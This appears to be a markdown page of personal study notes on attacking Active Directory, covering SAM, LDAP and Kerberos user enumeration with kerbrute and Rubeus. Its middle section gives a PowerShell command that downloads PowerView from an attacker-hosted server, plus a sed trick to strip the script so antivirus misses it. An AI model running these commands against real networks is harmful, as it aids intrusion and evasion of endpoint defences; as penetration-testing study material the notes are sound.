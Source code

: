 # Active Directory 👁️👁️  

Stores information of resources of a network. <br/>

### Basic Elements

* Forests - The Highest level. Can contain one or more domains.
* Domains - Can contain one or more OU
* Organizational Units - Let apply Group Policies and group permissions

__EVERYTHING IS AN OBJECT!__ <br/>

### SAM - Security Account Manager

Stores information about users, groups and passwords. <br/>

The SAM DB is checked by the __LSA__ Local Security Authority <br/>

SAM is for cached credentials <br/>

We can see them in C:\Users\jhon\Desktop\logonSessions\logonsessions.exe <br/>

NTDS (NT Directory Server)

### LDAP - Lightweight Directory Access Protocol

Is an Application Protocol that lets interact with Directory Services to store, read or modify information. <br/>

__copy from kali linux to windows__ <br/>

>python2 -m SimpleHTTPServer

* The file has to be in our directory where runs the FTP.

* Now run from powershell:

>(New-Object System.NET.WebClient).DownloadFile("http://192.168.20.129:8000/PowerView.ps1", "powerview.ps1")

__run PowerView__ <br/>

AV's by default has a Hash signature, we have to edit the file to skip them: <br/>

* From Kali Linux:

>sed '/<#/,/#>/d' powerview.ps1 > new_powerview.ps1

* From Powershell:

>. .\new_powerview.ps1

### ACL - Access Control List

Lists to manage and control access permitions


### KERBEROS

Authentication Protocol for Active Directory. <br/>

We can use wireshark to scan Kerberos (KRB5) where we can find: <br/>

* AS-REQ (Authentication Service Request) - Sends cname and sname
* KRB Error: KRB5KDC_ERR_PREAUTH_REQUIRED
  * User exists! - DC Requires a cipher Timestamp, otherwise: PRINCIPAL_UNKNOWN
* AS-REP (Authentication Service Reply)
* TGS (Ticket Granted Service)

>We can use kerbrut

>We can use Rubeus

https://github.com/GhostPack/Rubeus <br/>

* Go to __Compile Instructions__
* __Install__ .Net Development Desktop from Visual Studio in the given link.
* Open project (Choose _Rubeus.sln_)
* Select Rubeus folder and go to __Compile__
